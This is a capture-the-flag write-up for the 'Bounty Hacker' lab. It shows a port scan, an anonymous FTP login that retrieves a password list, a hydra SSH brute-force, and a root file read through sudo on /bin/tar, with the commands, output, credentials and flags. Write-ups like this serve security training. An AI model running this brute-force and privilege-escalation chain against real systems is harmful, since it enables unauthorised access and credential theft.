




## TL;DR

In this challenge we find password and username inside the `ftp` service, which we login anonymously.

We can privilege escalate to root using `sudo` on `/bin/tar`. I simply took the flag, but we could have also take `/etc/shadow` and crack the root hash.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh and port `80` with apache http server. 
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                                   13:16:07 [5/70]
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.5                                                                                                                                             
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                       
|_Can't get directory listing: PASV failed: 550 Permission denied.                                                                                                                           
| ftp-syst:                                                                                                                                                                                  
|   STAT:                                                                                                                                                                                    
| FTP server status:                                                                                                                                         
|      Connected to ::ffff:192.168.164.248                                                                                                                   
|      Logged in as ftp                                                                                                                                      
|      TYPE: ASCII                                                                                                                                           
|      No session bandwidth limit                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                     
|      Control connection is plain text                                                                                                                      
|      Data connections will be plain text                                                                                                                   
|      At session startup, client count was 2                                                                                                                
|      vsFTPd 3.0.5 - secure, fast, stable                                                                                                                   
|_End of status                                                                                                                                              
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                            
| ssh-hostkey:                                                                                                                                                                               
|   3072 4a:00:17:62:f4:b8:e3:8f:59:5a:12:fd:28:ae:a5:5b (RSA)                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHF7KplY7VFBsViR2uccyQxZxTCBXFRmQbIOezLC5xub9orpApQB+POqDHQBUR12BUMwV9HjvOKs9o7AhyhmeqrP4KREnk+Za15hjer7TT+263nA22LhiTOBAHj1Mh8M5M4K/52N/qIiTX3MMpgwq
wtZcyHM+xdWfeaE7VOXYnwLR99bTUL2XtFaECH160CAZLMx4N8Y9PLornnWNVKqJ/NXcQYHepJp/2hKkWp9G0tlLqYCQHZlEhncL/1reRqA++7Xm4814aT5lDLCu9DX1+e8rnlMMlwiTLtVNwnGwhcMIA0ow20dAAW0lYnjTfUmgHoeF6ZD2HXYYzpBq2
KMyP8AgFUdzmMnOszDA4IONtelb2n54SbVnN8OsXGP1M/dtmM4Bf0FY+otlypewl9MbNHlkZA0jLBLbIvHs2nV6Qw4RdbEO26Vd9SGDEdr88LVoUCVdZBFR6PM7BGIE19eFdlVB6fL7Dkur0xZwI73PMBNvzgw3G/guhbhpnmJhr4tU=
|   256 82:5f:23:43:f6:ca:f9:03:62:19:b1:80:26:80:4c:88 (ECDSA)                               
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN1SSXinFDrTMyF4EGjx3Xx4/u1CSvWSHBUVq+paHVjC1ru4eZfaH6eiRgT48l7XivJdG/o/kEFUOULKTbSyBEQ=                           
|   256 26:6d:fb:35:7c:21:56:4e:7a:e4:95:e4:f1:be:80:c0 (ED25519)                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO7cefQ42lXJCpfn04Q878tT9pJTlHK0rCtUBeMnpf4y                                                                           
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))                                                                                           
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                 
| http-methods:                                                               
|_  Supported Methods: GET POST OPTIONS HEAD                                                                                                                 
|_http-title: Site doesn't have a title (text/html).                                          
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Find password and username inside anonymous ftp service filesystem

we can login anonymously to ftp and find files:
```bash
┌──(agonen㉿kali)-[~/thm/BountyHacker]
└─$ ftp anonymous@bountyhacker.thm                                                                         
Connected to bountyhacker.thm.
220 (vsFTPd 3.0.5)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls
550 Permission denied.
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |************************************************************************************************************************************************|   418        1.64 MiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (1.95 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |************************************************************************************************************************************************|    68      223.58 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.33 KiB/s)
```

The file `task.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/BountyHacker]
└─$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

and the file `locks.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/BountyHacker]                                                                                                                                                                                                                        13:19:49 [0/173]
└─$ cat locks.txt                                                                                                                                                                            
rEddrAGON                                                                                                                                                                                    
ReDdr4g0nSynd!cat3                                                                                                                                                                           
Dr@gOn$yn9icat3                                                                                                                                                                              
R3DDr46ONSYndIC@Te                                                                                                                                                                           
ReddRA60N         
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE   
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044      
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n   
reddRAg0N        
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3   
4L1mi6H71StHeB357 
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE   
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te                                
RedDr@gonSyn9ic47e                    
REd$yNdIc47e                                        
dr@goN5YNd1c@73                                            
rEDdrAGOnSyNDiCat3                                         
r3ddr@g0N                                                          
ReDSynd1ca7e 
```

I tried to bruteforce login to ssh using the user `lin` and the passwords we got, with `hydra`:
```bash
┌──(agonen㉿kali)-[~/thm/BountyHacker]
└─$ hydra -l lin -P locks.txt ssh://bountyhacker.thm -I   
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-08 13:20:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://bountyhacker.thm:22/
[22][ssh] host: bountyhacker.thm   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-08 13:20:43
```



we can login with the credentials:
```bash
lin:RedDr4gonSynd1cat3
```



and grab the user flag:
```bash
lin@ip-10-65-177-164:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

### Privilege Escalation to Root using sudo on /bin/tar

we can check for `sudo` permissions:
```bash
lin@ip-10-65-177-164:~$ sudo -l
Matching Defaults entries for lin on ip-10-65-177-164:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on ip-10-65-177-164:
    (root) /bin/tar
```

Let's put the root flag inside tar archive.
```bash
lin@ip-10-67-138-195:/tmp$ sudo /bin/tar -cvf secret.tar /root/root.txt
/bin/tar: Removing leading `/' from member names
/root/root.txt
```




and grab the flag.

```bash
lin@ip-10-67-138-195:/tmp$ tar -xvf secret.tar 
root/root.txt
lin@ip-10-67-138-195:/tmp$ cat root/root.txt 
THM{80UN7Y_h4cK3r}
```
